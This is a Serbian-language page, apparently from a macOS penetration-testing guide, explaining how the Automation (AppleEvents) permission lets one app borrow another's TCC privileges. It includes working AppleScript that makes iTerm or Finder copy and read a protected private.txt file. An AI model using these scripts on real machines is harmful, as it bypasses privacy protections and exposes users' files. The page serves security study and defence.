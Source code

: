 ### kTCCServiceAppleEvents / Automatizacija

Aplikacija sa dozvolom **`kTCCServiceAppleEvents`** moći će da **kontroliše druge aplikacije**. To znači da bi mogla **zloupotrebiti dozvole dodeljene drugim aplikacijama**.

Za više informacija o Apple skriptama pogledajte:

{% content-ref url="macos-apple-scripts.md" %}
[macos-apple-scripts.md](macos-apple-scripts.md)
{% endcontent-ref %}

Na primer, ako aplikacija ima **dozvolu za Automatizaciju nad `iTerm`**, na primer u ovom primeru **`Terminal`** ima pristup nad iTerm-om:

<figure><img src="../../../../../.gitbook/assets/image (2) (2) (1).png" alt=""><figcaption></figcaption></figure>

#### Nad iTerm-om

Terminal, koji nema Pristup celom disku, može pozvati iTerm, koji ima, i koristiti ga za izvršavanje akcija:

{% code title="iterm.script" %}
```applescript
tell application "iTerm"
activate
tell current window
create tab with default profile
end tell
tell current session of current window
write text "cp ~/Desktop/private.txt /tmp"
end tell
end tell
```
{% endcode %}

```bash
osascript iterm.script
```

#### Preko Findera

Ili ako aplikacija ima pristup preko Findera, može koristiti skriptu poput ove:

```applescript
set a_user to do shell script "logname"
tell application "Finder"
set desc to path to home folder
set copyFile to duplicate (item "private.txt" of folder "Desktop" of folder a_user of item "Users" of disk of home) to folder desc with replacing
set t to paragraphs of (do shell script "cat " & POSIX path of (copyFile as alias)) as text
end tell
do shell script "rm " & POSIX path of (copyFile as alias)
```
